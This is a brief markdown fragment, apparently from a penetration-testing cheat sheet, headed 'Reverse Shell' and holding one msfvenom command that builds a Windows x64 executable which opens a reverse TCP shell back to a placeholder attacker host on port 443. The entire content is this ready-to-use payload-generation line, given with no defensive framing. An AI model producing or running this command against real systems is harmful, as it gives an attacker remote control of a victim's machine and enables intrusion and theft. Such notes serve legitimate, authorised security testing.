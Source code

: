 #### Reverse Shell
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$LHOST LPORT=443 -f exe -o shell.exe
```

